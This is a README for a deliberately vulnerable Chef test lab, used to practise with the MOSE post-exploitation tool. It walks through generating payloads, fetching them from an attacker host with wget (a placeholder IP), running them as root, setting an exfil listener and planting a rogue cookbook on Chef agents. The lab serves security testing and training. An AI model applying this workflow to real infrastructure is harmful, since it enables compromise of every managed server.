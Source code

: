 # chef-test-lab
[![License](http://img.shields.io/:license-mit-blue.svg)](https://github.com/master-of-servers/chef-test-lab/blob/master/LICENSE)
[![Build Status](https://dev.azure.com/jaysonegrace/chef-test-lab/_apis/build/status/master-of-servers.chef-test-lab?branchName=master)](https://dev.azure.com/jaysonegrace/chef-test-lab/_build/latest?definitionId=36&branchName=master)

Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

## Docker Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls a single agent, run the following command:
```
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working. You can track the progress with this command: `while true; do sleep 2; docker logs basic-chef-workstation; done`. You will know it's done when you see this:
```
id:       mysql_pw
password: TheM0stS3cr3T!!!
user:     mysql
```
3. Generate a payload with MOSE: `./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"` and be sure to answer `Y` when prompted.
4. Transfer the payload to the chef workstation container: `docker cp payloads/chef-linux basic-chef-workstation:/chef-linux` 
5. Run the payload: `docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"`
6. Wait for 30 minutes or exec into the agent and kick off the payload manually: `docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"`
7. Observe that a file has been created on the agent in `/tmp`: `docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"`

**Please note:**
The docker lab does not support transferring payloads to the target via the web server. You can however generate a payload with the `-f` parameter and transfer it via `docker cp`. 

To tear down the test environment, run the following command:
```
make destroy
```

## Credits
The chef server docker container is provided courtesy of this repo: https://github.com/c-buisson/chef-server
